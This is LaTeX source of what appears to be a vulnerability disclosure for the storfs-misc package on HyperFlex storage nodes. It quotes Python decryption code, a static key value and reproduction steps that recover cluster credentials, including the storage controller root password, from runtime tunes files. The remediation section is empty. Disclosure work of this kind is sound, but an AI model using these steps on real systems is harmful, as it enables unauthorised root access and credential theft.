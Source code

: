 \documentclass[11pt,a4paper]{article}
\begin{document}
\begin{lstlisting}[style=python]
# springpath_env_parse.py (storfs-misc_6.0.2b-44423_amd64.deb), verbatim:

def md5(fname):
    hash_md5 = hashlib.md5()
    with open(fname, 'rb') as f:
        for chunk in iter(lambda: f.read(4096), b''):
            hash_md5.update(chunk)
    return hash_md5.hexdigest()

def decrypt(key, enc):
    enc    = base64.b64decode(enc)
    iv     = enc[:16]
    cipher = AES.new(key.encode('utf8'), AES.MODE_CBC, iv)
    return unpad(cipher.decrypt(enc[16:]))

# Runtime usage:
file_md5 = md5('/usr/share/hyperflex/storfs-misc/Secret.class')
decoded  = decrypt(file_md5, tunes_value)

# Key confirmed static across all 6.0.2b nodes:
# md5sum Secret.class == '1f6d13bcd7753f2d3b2e2da361b7afb5'
\end{lstlisting}

\subsection*{Reproduction}

\begin{enumerate}
\item Extract \texttt{Secret.class} from \texttt{storfs-misc\_6.0.2b-44423\_amd64.deb}.
\item Compute its MD5: \texttt{md5sum Secret.class} yields
  \texttt{1f6d13bcd7753f2d3b2e2da361b7afb5}.
\item Use this value as the AES-CBC key (hex-string encoded).
\item Decrypt any value from a runtime \texttt{springpath\_custom\_node.tunes}
  or \texttt{springpath\_custom\_cluster.tunes} file using the
  \texttt{decrypt()} function above.
\end{enumerate}

\subsection*{Impact}

All runtime cluster credentials encrypted by the tunes mechanism are decryptable
using the publicly-derivable static key. The storage controller root password
is within the \texttt{stctl\_vm\_passwd} field.

\subsection*{Remediation}
\end{document}
